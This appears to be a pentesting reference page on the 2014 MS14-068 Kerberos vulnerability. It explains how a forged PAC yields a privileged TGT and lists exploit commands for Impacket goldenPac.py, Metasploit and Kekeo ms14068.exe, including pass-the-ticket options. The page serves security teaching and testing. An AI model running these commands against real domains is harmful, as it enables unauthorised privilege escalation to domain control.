 ## Theory
This vulnerability allows attackers to forge a TGT with high privileges (i.e. with a modified PAC stating the user is a member of privileged groups). This attack is similar to the Golden ticket, however, it doesn't require the attacker to know the krbtgt. This attack is a really powerful privilege escalation technique, however, it relies on a 2014 bug and will not work on patched domain controllers.

The exploitation goes as follow:

- A PAC-less TGT is obtained via an AS-REQ with the `PA-PAC-REQUEST` attribute set to false. This will be used in a later step.
- A PAC indicating an account membership to powerful groups in the domain is forged and "signed" with MD5 (or any other non-keyed algorithm listed here).
- A TGS-REQ message, requesting a service ticket targeting the KRBTGT service (i.e. a TGT-like) is sent to the vulnerable KDC, using the forged PAC from step (2) encrypted with a sub-session key (usually the session key) and included in the TGT from step (1).
- In response to step (3), a new TGT containing the forged PAC will be received from the vulnerable KDC after its validation of the forged PAC (the vulnerability happens here).

The newly obtained TGT can be use like a golden ticket, with pass-the-ticket, to perform privileged various actions.

## Exploit
=== "UNIX-like"
    **Impacket (goldenPac.py)**

    The attack can be carried out automatically using Impacket's goldenPac.py (Python). This tool conducts the attack and tries to open a privileged session using the obtained TGT and PsExec. The TGT can be stored locally with the -w path parameter.
    ```bash
    goldenPac.py "$DOMAIN_FQDN"/"$USER":"$PASSWORD"@"$DC_HOST" -dc-ip "$DC_IP"
    ```

    **Metasploit Framework**

    The Metasploit Framework can also be useful in the sense that it prints valuable error information.
    ```bash
    msf6 > use admin/kerberos/ms14_068_kerberos_checksum
    ```
=== "Windows"
    **Kekeo**

    Prerequisite : Build ms14068.exe following [kekeo's documentation](https://github.com/gentilkiwi/kekeo#readme).
    ```bash
    # NB : ms14068.exe can act in two ways
    # /ticket : Write the obtained ticket on disk with default name tgt.kirbi
    # /ptt : Pass-the-ticket by directly injecting the obtained TGT into LSA

    # with password
    # domain SID and user RID are automaticaly discovered
    ms14068.exe /domain:$domain /user:$user /password:$password /kdc:$VULN_KDC_FQDN

    # with an NT hash
    # AES-128 and AES-256 keys are also usable with /aes128 and /aes256 respectively
    # note that automatic discovery of the user SID is not possible when using hash 
    ms14068.exe /domain:$domain /user:$user /key:$krbtgt_NThash /sid:$DomainSID /rid:$userRelativeID /kdc:$KDC_FQDN
    ```
